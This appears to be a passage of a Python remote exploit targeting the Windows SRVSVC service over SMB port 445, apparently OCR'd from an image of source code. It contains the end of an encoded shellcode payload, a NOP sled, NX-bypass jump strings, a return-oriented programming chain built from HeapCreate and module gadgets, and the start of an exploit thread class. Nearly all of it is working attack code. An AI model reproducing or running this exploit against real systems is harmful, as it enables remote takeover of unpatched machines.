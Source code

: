 ```python
"\xd3\x55\xea\xe7\x89\x93\xaf\x4e\xf1\xb6\xbe\x05\xb5\xd6\xfa"
"\x93\xe3\xc4\xf8\x85\xe3\xdc\xf8\x95\xe6\xc4\xc6\xba\x79\xad"
"\x28\x3c\x60\x1b\x4e\x8d\xe3\xd4\x51\xf3\xdd\x9a\x29\xde\xd5"
"\x6d\x7b\x78\x55\x8f\x84\xc9\xdd\x34\x3b\x7e\x28\x6d\x7b\xff"
"\xb3\xee\xa4\x43\x4e\x72\xdb\xc6\x0e\xd5\xbd\xb1\xda\xf8\xae"
"\x90\x4a\x47"
)
# ------------------------------------------------------------------------

# Gotta make No-Ops (NOPS) + shellcode = 410 bytes
num_nops = 410 - len(shellcode)
newshellcode = "\x90" * num_nops
newshellcode += shellcode  # Add NOPS to the front
shellcode = newshellcode   # Switcheroo with the newshellcode temp variable

#print "Shellcode length: %s\n\n" % len(shellcode)

nonxjmper = "\x08\x04\x02\x00%s" + "A" * 4 + "%s" + \
    "A" * 42 + "\x90" * 8 + "\xeb\x62" + "A" * 10
disableNXjumper = "\x08\x04\x02\x00%s%s%s" + "A" * \
    28 + "%s" + "\xeb\x02" + "\x90" * 2 + "\xeb\x62"
ropjumper = "\x00\x08\x01\x00" + "%s" + "\x10\x01\x04\x01";
module_base = 0x6f880000


def generate_rop(rvas):
    gadget1 = "\x90\x5a\x59\xc3"
    gadget2 = ["\x90\x89\xc7\x83", "\xc7\x0c\x6a\x7f", "\x59\xf2\xa5\x90"]
    gadget3 = "\xcc\x90\xeb\x5a"
    ret = struct.pack('<L', 0x00018000)
    ret += struct.pack('<L', rvas['call_HeapCreate'] + module_base)
    ret += struct.pack('<L', 0x01040110)
    ret += struct.pack('<L', 0x01010101)
    ret += struct.pack('<L', 0x01010101)
    ret += struct.pack('<L',
                       rvas['add eax, ebp / mov ecx, 0x59ffffa8 / ret'] + module_base)
    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
    ret += gadget1
    ret += struct.pack('<L', rvas['mov [eax], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
    ret += gadget2[0]
    ret += gadget2[1]
    ret += struct.pack('<L', rvas[
                       'mov [eax+8], edx / mov [eax+0xc], ecx / mov [eax+0x10], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['pop ecx / ret'] + module_base)
    ret += gadget2[2]
    ret += struct.pack('<L', rvas['mov [eax+0x10], ecx / ret'] + module_base)
    ret += struct.pack('<L', rvas['add eax, 8 / ret'] + module_base)
    ret += struct.pack('<L', rvas['jmp eax'] + module_base)
    ret += gadget3
    return ret


class SRVSVC_Exploit(Thread):
    def __init__(self, target, os, port=445):
        super(SRVSVC_Exploit, self).__init__()

        # MODIFIED HERE
        # Changed __port to port ... not sure if that does anything. I'm a newb.
        self.port = port
        self.target = target
        self.os = os
```